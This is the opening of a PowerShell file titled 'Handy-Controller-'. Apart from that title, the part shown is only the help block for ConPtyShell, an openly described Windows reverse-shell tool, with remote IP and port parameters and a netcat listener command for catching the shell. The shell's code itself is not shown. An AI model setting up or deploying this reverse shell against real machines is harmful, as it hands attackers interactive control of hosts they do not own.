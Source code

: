 # Handy-Controller-
{   
    <#
        .SYNOPSIS
            ConPtyShell - Fully Interactive Reverse Shell for Windows 
            Author: splinter_code
            License: MIT
            Source: https://github.com/antonioCoco/ConPtyShell
        
        .DESCRIPTION
            ConPtyShell - Fully interactive reverse shell for Windows
            
            Properly set the rows and cols values. You can retrieve it from
            your terminal with the command "stty size".
            
            You can avoid to set rows and cols values if you run your listener
            with the following command:
                stty raw -echo; (stty size; cat) | nc -lvnp 3001
           
            If you want to change the console size directly from powershell
            you can paste the following commands:
                $width=80
                $height=24
                $Host.UI.RawUI.BufferSize = New-Object Management.Automation.Host.Size ($width, $height)
                $Host.UI.RawUI.WindowSize = New-Object -TypeName System.Management.Automation.Host.Size -ArgumentList ($width, $height)
            
            
        .PARAMETER RemoteIp
            The remote ip to connect
        .PARAMETER RemotePort
            The remote port to connect
        .PARAMETER Rows
            Rows size for the console
            Default: "24"
        .PARAMETER Cols
            Cols size for the console
            Default: "80"
        .PARAMETER CommandLine
            The commandline of the process that you are going to interact
            Default: "powershell.exe"
